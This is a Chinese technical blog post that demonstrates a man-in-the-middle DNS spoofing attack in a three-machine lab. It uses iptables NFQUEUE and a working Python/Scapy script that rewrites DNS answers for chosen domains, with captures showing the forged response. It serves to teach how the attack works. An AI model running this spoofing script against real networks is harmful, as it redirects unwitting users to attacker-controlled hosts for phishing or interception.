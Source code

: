 ```yaml
---
layout:     post
title:      "DNS污染的Python实现"
subtitle:   "Modify packets with nfqueue and scapy"
date:       2019-05-25 00:00:00
author:     "NJL"
header-img: "img/post-bg-2015.jpg"
tags:
    - Python
    - iptables
    - DNS 
---
```



#### 0x01 引言

本文简单介绍了一种 Man-in-the-middle 的 DNS 攻击方法。在中间路由设备上通过 iptables 捕获 DNS 数据包，然后使用 Scapy 来修改响应中的资源记录， 以此来实现 DNS 污染。


#### 0x02 测试环境拓扑 

准备三台虚机，分别是以下 IP

    Node1: 192.168.129.107  # client，作为DNS请求发起端
    Node2：192.168.129.112  # router，中间路由设备
    Node3：192.168.129.113  # server，DNS 服务器

![Deployment Image](/img/in-post/post-dns-spoof/DNS_SPOOF.jpg)
 
Node2 作为中间路由器, 需要打开 `ipv4_forward`, 并在 Node1 和 Node3上 分别设置明细路由，使Node2作为它们的网关  


    # 在 node2 上执行，开启转发
    root@node2:/# sysctl -p
    net.ipv4.ip_forward = 1

    # 在 node1 上执行, 目的地址为 Node3 的数据包下一跳为 Node2
    root@node1:/# ip route add 192.168.129.113 via 192.168.129.112

    # 在 node3 上执行, 目标地址为 Node1 的数据包下一跳为 Node2 
    root@node3:/# ip route add 192.168.129.107 via 192.168.129.112

    #在 node3 上安装 dnsmasq 
    root@node3:/# apt-get install dnsmasq

测试域名解析，node1 向 node3 请求 www.baidu.com 的域名解析，  node2 上应该能能抓到DNS请求和应答包

    # 在node1 上向 node3 请求 dns 解析
     root@node1:/#dig www.baidu.com @192.168.129.113

    # 在 node2 上应该能抓到 DNS 解析包
    root@node2:/# tcpdump -i any -p udp and host 192.168.129.107 and port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    08:44:29.634961 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.635083 IP 192.168.129.107.37559 > 192.168.129.113.domain: 63650+ [1au] A? www.baidu.com. (54)
    08:44:29.642843 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
    08:44:29.642918 IP 192.168.129.113.domain > 192.168.129.107.37559: 63650 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)


#### 0x03 捕获 DNS 数据包

想要修改数据包，首先必须要能获取到它。在这里我们使用了 `iptables` 的 `nfqueue`， 它可以将数据包从内核空间拷贝到用户空间，在用户空间对其修改后重新发送。

先在 node2 上添加一条 iptables 规则， 使所有 DNS Response Packet 都进入 `nfqueue 0` 中。  

    
    root@node2:/# iptables -t filter -I FORWARD 1 -p udp --sport 53 -j NFQUEUE --queue-num 0


[Python NetfilterQueue](https://pypi.org/project/NetfilterQueue) 十分容易上手，根据其基础教程很容易就能完成我们的第一次数据包的捕获。  

    # 安装依赖
    apt-get install build-essential python-dev libnetfilter-queue-dev  
    pip install NetfilterQueue  


    # 捕获并打印数据包
    from netfilterqueue import NetfilterQueue
    
    def print_and_accept(pkt):
        print(pkt)
        pkt.accept()
    
    nfqueue = NetfilterQueue()
    nfqueue.bind(0, print_and_accept)
    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('')
    
    nfqueue.unbind()

#### 0x04 修改 DNS 响应


捕获到数据包之后，接下来就是修改其内容。Netifilter Packet 对象提供了 `get_payload()` 方法用来获取数据包原始的二进制数据，
但我们不可能直接对二进制数据进行修改，所以就轮到 Scapy 登场了。   

[Scapy](https://scapy.readthedocs.io/en/latest/) 可以方便我们构造和修改报文，
`scapy.IP(pkt.get_payload())` 将二进制数据 转换成 `scapy.IP` 对象


    root@node2:/# cat dns_ans_spoof.py 

    import scapy.all as scapy
    from netfilterqueue import NetfilterQueue
    
    # 只修改此 DNS Server的响应
    target_dns_servers = ['192.168.129.113']
    # 将 www.baidu.com 的域名解析修改为 1.1.1.1
    target_domains = {
       'www.baidu.com.': '1.1.1.1',
       'www.sina.com.': '2.2.2.2'
    }
    target_domains_set = target_domains.keys()
    
    def dns_spoof_and_accept(pkt):
        try:
            dns_packet = scapy.IP(pkt.get_payload())
            dns_server_ip = dns_packet[scapy.IP].src
            # 源地址匹配，并且有 RR 记录
            if dns_server_ip in target_dns_servers and dns_packet.haslayer(scapy.DNSRR):
                qname = dns_packet[scapy.DNSQR].qname 
                if qname in target_domains_set:
                    dns_response = scapy.DNSRR(rrname=qname, rdata=target_domains[qname])
                    dns_packet[scapy.DNS].an = dns_response
                    dns_packet[scapy.DNS].ancount = 1
                    # 删除Checksum 
                    del dns_packet[scapy.IP].len
                    del dns_packet[scapy.IP].chksum
                    del dns_packet[scapy.UDP].len
                    del dns_packet[scapy.UDP].chksum
                    pkt.set_payload(str(dns_packet))
        except Exception as e:
            pass
        finally:
            pkt.accept()
    
    nfqueue = NetfilterQueue()
    # 满足条件的 pkt 会进入此 nfqueue, 交给 dns_spoof_and_accept(pkt) 来处理
    nfqueue.bind(0, dns_spoof_and_accept)
    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('Exit')
    
    nfqueue.unbind()



运行 `dns_ans_spoof.py`, 然后再次在 node1 上请求 dns 解析


    # 百度的地址已经被修改为了 1.1.1.1, 其他未配置的请求不会被修改
    root@node1:/# dig www.baidu.com @192.168.129.113 

    ; <<>> DiG 9.11.3-1ubuntu1.5-Ubuntu <<>> www.baidu.com @192.168.129.113
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 23488
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;www.baidu.com.			IN	A
    
    ;; ANSWER SECTION:
    www.baidu.com.		0	IN	A	1.1.1.1
    
    ;; Query time: 83 msec
    ;; SERVER: 192.168.129.113#53(192.168.129.113)
    ;; WHEN: Mon Mar 11 17:07:56 CST 2019
    ;; MSG SIZE  rcvd: 71


    # 查看 node2 上的抓包信息 
    09:07:56.433256 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
    09:07:56.433479 IP 192.168.129.107.38241 > 192.168.129.113.domain: 23488+ [1au] A? www.baidu.com. (54)
    # Original DNS Resp
    09:07:56.442586 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 3/0/1 CNAME www.a.shifen.com., A 115.239.211.112, A 115.239.210.27 (101)
    # Modified DNS Resp
    09:07:56.515473 IP 192.168.129.113.domain > 192.168.129.107.38241: 23488 1/0/1 A 1.1.1.1 (71)


#### 0x04 Reference


https://medium.com/@777rip777/dns-spoofer-with-scapy-part-5-4a84b17f35a3  
https://scapy.readthedocs.io/en/latest/introduction.html  
https://en.wikipedia.org/wiki/Domain_Name_System  
https://en.wikipedia.org/wiki/DNS_spoofing  

